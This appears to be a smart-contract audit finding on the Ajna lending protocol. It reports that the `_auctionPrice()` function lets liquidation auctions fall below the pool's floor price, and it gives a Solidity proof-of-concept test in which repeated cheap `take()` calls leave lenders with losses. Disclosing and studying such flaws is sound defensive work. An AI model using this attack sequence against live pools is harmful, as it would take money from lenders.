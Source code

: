 Suave Canvas Skunk

medium

# Unbounded Auction Price Decrease Leads to Lending Pool Insolvency
## Summary
When a borrower cannot pay their debt in an ERC20 pool, their position is liquidated and their assets enter an auction for other users to purchase small pieces of their assets. Because of the incentive that users wish to not pay above the standard market price for a token, users will generally wait until assets on auction are as cheap as possible to purchase however, this is flawed because this guarantees a loss for all lenders participating in the protocol with each user that is liquidated.

## Vulnerability Detail
Consider a situation where a user decides to short a coin through a loan and refuses to take the loss to retain the value of their position. When the auction is kicked off using the `kick()` function on this user, as time moves forward, the price for puchasing these assets becomes increasingly cheaper. These prices can fall through the floor price of the lending pool which will allow anybody to buy tokens for only a fraction of what they were worth originally leading to a state where the pool cant cover the debt of the user who has not paid their loan back with interest. The issue lies in the `_auctionPrice()` function of the `Auctions.sol` contract which calculates the price of the auctioned assets for the taker. This function does not consider the floor price of the pool. The proof of concept below outlines this scenario:

*Proof of Concept:*
```solidity
    function testInsolvency() public {
        
        // ============== Setup Scenario ==============
        uint256 interestRateOne = 0.05 * 10**18;           // Collateral  // Quote (loaned token, short position)
        address poolThreeAddr = erc20PoolFactory.deployPool(address(dai), address(weth), interestRateOne);
        ERC20Pool poolThree = ERC20Pool(address(poolThreeAddr));
        vm.label(poolThreeAddr, "DAI / WETH Pool Three");

        // Setup scenario and send liquidity providers some tokens
        vm.startPrank(address(daiDoner));
        dai.transfer(address(charlie), 3200 ether);
        vm.stopPrank();

        vm.startPrank(address(wethDoner));
        weth.transfer(address(bob), 1000 ether);
        vm.stopPrank();

        // ==============================================


        // Note At the time (24/01/2023) of writing ETH is currently 1,625.02 DAI,
        // so this would be a popular bucket to deposit in.

        // Start Scenario
        // The lower dowm we go the cheaper wETH becomes - At a concentrated fenwick index of 5635, 1 wETH = 1600 DAI (Approx real life price)
        uint256 fenwick = 5635;

        vm.startPrank(address(alice));
        weth.deposit{value: 2 ether}();
        weth.approve(address(poolThree), 2.226 ether);
        poolThree.addQuoteToken(2 ether, fenwick); 
        vm.stopPrank();

        vm.startPrank(address(bob));
        weth.deposit{value: 9 ether}();
        weth.approve(address(poolThree), 9 ether);
        poolThree.addQuoteToken(9 ether, fenwick); 
        vm.stopPrank();

        assertEq(weth.balanceOf(address(poolThree)), 11 ether);


        // ======================== start testing ========================

        vm.startPrank(address(bob));
        bytes32 poolSubsetHashes = keccak256("ERC20_NON_SUBSET_HASH");
        IPositionManagerOwnerActions.MintParams memory mp = IPositionManagerOwnerActions.MintParams({
            recipient: address(bob),
            pool: address(poolThree),
            poolSubsetHash: poolSubsetHashes
        });
        positionManager.mint(mp);
        positionManager.setApprovalForAll(address(rewardsManager), true);
        rewardsManager.stake(1);
        vm.stopPrank();


        assertEq(dai.balanceOf(address(charlie)), 3200 ether);
        vm.startPrank(address(charlie)); // Charlie runs away with the weth tokens
        dai.approve(address(poolThree), 3200 ether);
        poolThree.drawDebt(address(charlie), 2 ether, fenwick, 3200 ether);
        vm.stopPrank();

        vm.warp(block.timestamp + 62 days);


        vm.startPrank(address(bob));
        weth.deposit{value: 0.5 ether}();
        weth.approve(address(poolThree), 0.5 ether);
        poolThree.kick(address(charlie)); // Kick off liquidation
        vm.stopPrank();

        vm.warp(block.timestamp + 10 hours);

        assertEq(weth.balanceOf(address(poolThree)), 9020189981190878108); // 9 ether


        vm.startPrank(address(bob));
        // Bob Takes a (pretend) flashloan of 1000 weth to get cheap dai tokens
        weth.approve(address(poolThree), 1000 ether);
        poolThree.take(address(charlie), 1000 ether , address(bob), "");
        weth.approve(address(poolThree), 1000 ether);
        poolThree.take(address(charlie), 1000 ether , address(bob), "");
        weth.approve(address(poolThree), 1000 ether);
        poolThree.take(address(charlie), 1000 ether , address(bob), "");
        weth.approve(address(poolThree), 1000 ether);
        poolThree.take(address(charlie), 1000 ether, address(bob), "");
        
        poolThree.settle(address(charlie), 100);
        vm.stopPrank();


        assertEq(weth.balanceOf(address(poolThree)), 9152686732755985308); // Pool balance is still 9 ether instead of 11 ether - insolvency. 
        assertEq(dai.balanceOf(address(bob)), 3200 ether); // The original amount that charlie posted as deposit


        vm.warp(block.timestamp + 2 hours);
        // users attempt to withdraw after shaken by a liquidation
        vm.startPrank(address(alice));
        poolThree.removeQuoteToken(2 ether, fenwick);
        vm.stopPrank();

        vm.startPrank(address(bob));
        poolThree.removeQuoteToken(9 ether, fenwick);
        vm.stopPrank();

        assertEq(weth.balanceOf(address(bob)), 1007664981389220443074); // 1007 ether, originally 1009 ether
        assertEq(weth.balanceOf(address(alice)), 1626148471550317418); // 1.6 ether, originally 2 ether

    }
```

## Impact
An increase in borrowers who cant pay their debts back will result in a loss for all lenders. 

## Code Snippet

[https://github.com/sherlock-audit/2023-09-ajna/blob/main/ajna-core/src/libraries/helpers/PoolHelper.sol#L353-L370](https://github.com/sherlock-audit/2023-09-ajna/blob/main/ajna-core/src/libraries/helpers/PoolHelper.sol#L353-L370)

```solidity
  
  function _auctionPrice(
        uint256 referencePrice_,
        uint256 kickTime_
    ) view returns (uint256 price_) {
        uint256 elapsedMinutes = Maths.wdiv((block.timestamp - kickTime_) * 1e18, 1 minutes * 1e18);


        int256 timeAdjustment;
        if (elapsedMinutes < 120 * 1e18) {
            timeAdjustment = PRBMathSD59x18.mul(-1 * 1e18, int256(elapsedMinutes / 20));
            price_ = 256 * Maths.wmul(referencePrice_, uint256(PRBMathSD59x18.exp2(timeAdjustment)));
        } else if (elapsedMinutes < 840 * 1e18) {
            timeAdjustment = PRBMathSD59x18.mul(-1 * 1e18, int256((elapsedMinutes - 120 * 1e18) / 120));
            price_ = 4 * Maths.wmul(referencePrice_, uint256(PRBMathSD59x18.exp2(timeAdjustment)));
        } else {
            timeAdjustment = PRBMathSD59x18.mul(-1 * 1e18, int256((elapsedMinutes - 840 * 1e18) / 60));
            price_ = Maths.wmul(referencePrice_, uint256(PRBMathSD59x18.exp2(timeAdjustment))) / 16;
        }
    }
```

## Tool used

Manual Review + in-house tool

## Recommendation
It's recommended that the price of the assets on auction consider the fenwick(s) being used when determining the price of assets on loan and do not fall below that particular index. With this fix in place, the worst case scenario is that lenders can purchase these assets for the price they were loaned out for allowing them to recover the loss. 
